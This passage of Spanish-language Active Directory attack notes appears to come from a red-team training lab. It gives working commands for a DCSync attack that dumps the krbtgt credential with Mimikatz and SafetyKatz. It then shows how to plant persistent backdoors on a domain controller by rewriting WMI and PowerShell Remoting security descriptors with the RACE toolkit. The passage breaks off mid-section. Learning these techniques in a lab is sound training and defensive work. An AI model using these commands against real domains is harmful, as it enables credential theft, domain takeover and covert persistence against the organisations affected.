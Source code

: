 `Invoke-Mimikatz -Command '"lsadump::dcsync
/user:ops\krbtgt"'`

o tambien con:

`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync
/user:us\krbtgt" "exit"`

**Persistence using ACLs – Security Descriptors**

- Es posible modificar los descriptores de seguridad (información de seguridad como propietario, grupo principal, DACL y SACL) de varios métodos de acceso remoto (objetos protegibles) para permitir el acceso a usuarios que no son administradores.
- Se requieren privilegios administrativos para esto.
- Por supuesto, funciona como un mecanismo de puerta trasera muy útil e impactante.

- El lenguaje de definición de descriptores de seguridad define el formato que se utiliza para describir un descriptor de seguridad. SDDL usa cadenas ACE para DACL y SACL:
ace_type; ace_flags; derechos; object_guid; heredar_object_guid; account_sid
- ACE para administradores integrados para espacios de nombres WMI
A; CI; CCDCLCSWRPWPRCWD ;;; SID

**WMI**

Las ACL se pueden modificar para permitir que los usuarios que no son administradores accedan a objetos protegibles. Uso del kit de herramientas RACE:

`C:\AD\Tools\RACE-master\RACE.ps1`

En la maquina local de stundent:

`Set-RemoteWMI -SamAccountName studentuser1 –Verbose`

En una máquina remota para studentuser1 sin credenciales explícitas:

`Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Verbose`

En una máquina remota con credenciales explícitas. Solo root \ cimv2 y espacios de nombres anidados:

`Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -
Credential Administrator –namespace 'root\cimv2' -Verbose`

En la máquina remota, elimine los permisos:

`Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Remove`

**PowerShell Remoting**

Uso del kit de herramientas RACE: la puerta trasera de PS Remoting no es estable después de los parches de agosto de 2020

En la maquina local de estudiante:

`Set-RemotePSRemoting -SamAccountName studentuser1 –Verbose`

En una máquina remota para studentuser1 sin credenciales explícitas:

`Set-RemotePSRemoting -SamAccountName studentuser1 -ComputerName us-dc -Verbose`

En la máquina remota, elimine los permisos:
